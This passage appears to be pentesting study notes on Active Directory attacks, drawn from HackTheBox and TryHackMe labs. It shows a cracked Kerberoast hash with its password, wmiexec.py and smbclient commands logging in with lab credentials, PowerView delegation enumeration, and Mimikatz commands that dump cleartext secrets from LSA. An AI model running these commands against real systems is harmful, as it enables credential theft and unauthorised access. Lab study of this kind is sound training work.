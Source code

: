 - We get the password
  ```bash
  $krb5tgs$23$*SQLService$MARVEL.LOCAL$HYDRA-DC/SQLService.MARVEL.local~60111*$eb6[STRIPPED]6bc:MYpassword123#
  ```
- After getting a password, we could connect to an smbshare or get a shell

  ```python
  python3 wmiexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100
  ```
  or
  ```bash
  smbclient \\\\10.10.10.100\\Users -U active.htb\\Administrator
  ```

## Exploiting Kerberos Delegation

The practical use of Kerberos Delegation is to enable an application to access resources hosted on a different server. An example of this would be a web server that needs to access a SQL database hosted on the database server for the web application that it is hosting. Without delegation, we would probably use an AD service account and provide it with direct access to the database. When requests are made on the web application, the service account would be used to authenticate to the database and recover information.

However, we can allow this service account to be delegated to the SQL server service. Once a user logs into our web application, the service account will request access to the database on behalf of that user. This means that the user would only be able to access data in the database that they have the relevant permissions for without having to provide any database privileges or permissions to the service account itself.

> *Source: [TryHackMe](https://tryhackme.com/room/exploitingad)*

### Example

- Enerumerate available delegations with a privileged user
  - `Import-Module C:\Tools\PowerView.ps1`
  - `Get-NetUser -TrustedToAuth`
- Dump LSASecrets with [Mimikatz](https://github.com/gentilkiwi/mimikatz/security)
  - `mimikatz.exe`
  - `token::elevate` To dump the secrets from the registry hive, we need to impersonate the SYSTEM user.
  - `lsadump::secrets` Mimikatz interacts with the registry hive to pull the clear text credentials.
  
![Dump](../.res/2022-07-29-13-06-16.png)  
